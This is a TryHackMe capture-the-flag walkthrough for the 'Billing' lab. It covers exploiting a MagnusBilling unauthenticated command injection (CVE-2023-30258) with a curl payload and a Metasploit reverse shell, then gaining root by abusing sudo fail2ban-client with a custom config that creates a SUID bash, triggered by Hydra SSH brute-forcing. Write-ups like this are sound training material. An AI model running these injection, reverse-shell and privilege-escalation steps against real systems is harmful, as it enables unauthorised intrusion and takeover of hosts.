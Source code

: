 ```yaml
---
title: Billing - TryHackMe - Walkthrough
date: 2025-03-08 10:00:00 +0200
categories: [TryHackMe]
tags: [IPS,magnusbilling,privesc]
description: Exploit a simple known CVE and then escalate your privileges with fail2ban.
image:
  path: /assets/blog/Billing/Room.png
  alt: Billing Room image
---
```


## Description

This is a Write-Up for the Room Billing on TryHackMe. The Room can be found [here](https://tryhackme.com/room/billing) and is rated as Easy.

> Gain a shell, find the way and escalate your privileges!

## Scanning

I started this room by scanning the machine with `nmap`.
```sh
sudo nmap -p- -sV -sC -oA nmap/machine -vv 10.10.208.191
```

If we check the results we find three ports open, SSH, an Apache2 server, MYSQL and Asterisk.
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http     syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.208.191/mbilling/
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql    syn-ack ttl 63 MariaDB (unauthorized)
5038/tcp open  asterisk syn-ack ttl 63 Asterisk Call Manager 2.10.6
```

I next inspected the Web page. You can see that we have a application named MagnusBilling running on the webserver port.

![](/assets/blog/Billing/magn.png)

If you google that application name you will find a vulnerability, CVE-2023-30258. You can find out more details by visiting the NIST website. There you will see that it's a unauthenticated RCE.

![](/assets/blog/Billing/vuln.png)

So for that exploit we don't even need credentials, I next checked if there are any known exploit's available, if you check the [Rapid7 site to this vulerability](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/), you will find out that a Metasploit exploit exists for this vulnerability.

To check if the vulnerability is present on the system, you can test the vulnerable endpoint. The vulnerable endpoint is the `/lib/icepay/icepay.php` file where the `democ` parameter is vulnerable to command injection. The command provided below will wait 6 seconds if the exploit is successful, for that to measure I added a `time` before the curl command to check if the request really takes about 6 seconds.

```terminal
time curl "http://10.10.62.169/mbilling/lib/icepay/icepay.php?democ=/dev/null%3bsleep%206%3b%23"
```

Now the command below takes about 6 seconds so we know the endpoint is vulnerable to command injection. To exploit the vulnerability with Metasploit I used the options provided below. You may notice the options `DisablePayloadHandler` and `AllowNoCleanup`, I used these to disable the auto listener to get a clean shell back. Keep in mind for that to work you need to start a custom listener.

```terminal
nc -lvnp 9001
```

Note: Your interface might vary, you can check it with `ifconfig` or `ip a`.

```terminal
$ msfconsole
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set rhosts 10.10.62.169
rhosts => 10.10.62.169
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set lport 9001
lport => 9001
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set lhost tun0
lhost => tun0
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set AllowNoCleanup true                             
AllowNoCleanup => true
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > run
```

This now takes a few seconds and you should get a shell back.

I first executed a shell and checked if the flag is accessable with our current user, this is the case, so with that we solved the user part.

Note: I upgraded my shell before I started searching for the flag. If you'd need more info to that visit this [blog post](https://0xffsec.com/handbook/shells/full-tty/).
```terminal
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.78.229] from (UNKNOWN) [10.10.62.169] 39454
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")';
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ^Z
zsh: suspended  nc -lvnp 9001
                                                                                               
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 9001

asterisk@Billing:/var/www/html/mbilling/lib/icepay$
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ls /home/
magnus
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ls /home/magnus/
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ls -l /home/magnus/user.txt                     
-rw-r--r-- 1 magnus magnus 38 Mar 27  2024 /home/magnus/user.txt
```

## Root

I first checked what permissions the current user has in terms of `sudo`:
```terminal
$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The user is able to execute the `fail2ban` binary as root, this executable is used for blocking IP addresses and defining actions when that happens. There is a known privilege escalation technique if we can restart fail2ban and can modify files inside `/etc/fail2ban`, but we can't do that:

```terminal
$ find /etc/fail2ban -writable | wc
      0       0       0
```

Although that doesn't work, we can check the options of the executable and see if we somehow can escalate the privileges with an option, and indeed there is a option. the `-c` option let's you specify a custom path to the fail2ban config folder which is `/etc/fail2ban` by default, so if we copy the structure to `/tmp` modify the file we need and then restart the server with the new config folder, we should get a result.

```
cd /tmp
cp -r /etc/fail2ban/ fail2ban
nano fail2ban/action.d/iptables-multiport.conf
```

Now comment the `actionban` line out and add our custom `actionban`, which will create a bash SUID shell in the `/tmp` folder.
```
# actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = cp /bin/bash /tmp && chmod 4755 /tmp/bash
```

After that you can restart the fail2ban server, but with the new config files.

```
sudo /usr/bin/fail2ban-client -c fail2ban/ restart
```

Finally brute force the server with a few attempts to get the ban action executed. I used hydra for that.
```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.62.169 -I
```
With that you should be able to find the bash reverse shell in the `/tmp` folder and can execute `/tmp/bash -p` to get the root shell and retrive the flag.

```terminal
$ ./bash -p
bash-5.1# ls
bash  fail2ban  testt.txt
bash-5.1# cd /root
bash-5.1# ls
filename  passwordMysql.log  root.txt
bash-5.1# wc root.txt 
 1  1 38 root.txt
```
